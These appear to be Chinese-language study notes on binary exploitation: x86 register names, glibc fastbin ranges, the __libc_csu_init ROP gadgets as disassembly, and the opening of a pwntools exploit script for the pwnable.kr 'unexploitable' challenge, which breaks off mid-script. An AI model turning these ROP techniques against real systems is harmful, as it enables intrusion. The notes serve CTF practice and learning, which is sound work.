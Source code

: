 AH&AL=AX(accumulator):累加寄存器
BH&BL=BX(base):基址寄存器
CH&CL=CX(count):计数寄存器
DH&DL=DX(data):数据寄存器
SP(Stack Pointer):堆栈指针寄存器
BP(Base Pointer):基址指针寄存器
SI(Source Index):源变址寄存器
DI(Destination Index):目的变址寄存器
IP(Instruction Pointer):指令指针寄存器
CS(Code Segment)代码段寄存器
DS(Data Segment):数据段寄存器
SS(Stack Segment):堆栈段寄存器
ES(Extra Segment):附加段寄存器

32位CPU有4个32位的通用寄存器EAX、EBX、ECX和EDX。对低16位数据的存取，不会影响高16位的数据。这些低16位寄存器分别命名为：AX、BX、CX和DX，它和先前的CPU中的寄存器相一致。

4个16位寄存器又可分割成8个独立的8位寄存器(AX：AH-AL、BX：BH-BL、CX：CH-CL、DX：DH-DL)，每个寄存器都有自己的名称，可独立存取。程序员可利用数据寄存器的这种“可分可合”的特性，灵活地处理字/字节的信。

## glibc中各种bin的划分

64位: fastbins [0x20 ~ 0x80] ，步长 0x10

## 经典ROP gadgets

1. __libc_csu_init方法

```
.text:00000000004005E6                 mov     rbx, [rsp+38h+var_30]
.text:00000000004005EB                 mov     rbp, [rsp+38h+var_28]
.text:00000000004005F0                 mov     r12, [rsp+38h+var_20]
.text:00000000004005F5                 mov     r13, [rsp+38h+var_18]
.text:00000000004005FA                 mov     r14, [rsp+38h+var_10]
.text:00000000004005FF                 mov     r15, [rsp+38h+var_8]
.text:0000000000400604                 add     rsp, 38h
.text:0000000000400608                 retn
```

```
.text:00000000004005D0                 mov     rdx, r15
.text:00000000004005D3                 mov     rsi, r14
.text:00000000004005D6                 mov     edi, r13d
.text:00000000004005D9                 call    qword ptr [r12+rbx*8]
```

2. 一般存在"pop r15;ret" 也就存在"pop rdi;ret;"

pwnable.kr-unexploitable 的exp:

```
from pwn import *

io = process("./unexploitable")
elf = ELF("./unexploitable")
#context.log_level = "debug"

pop_rbp = 0x400512
leave_ret = 0x400576
syscall_addr = 0x400560
bss_addr = 0x601028 + 0x200
sh_addr = 0x601028 + 0x400
# rdi, rsi, rdx, rcx, r8, r9
 
gadget_1 = 0x4005e6
"""
   0x00000000004005e6 <+102>:   mov    rbx,QWORD PTR [rsp+0x8]
```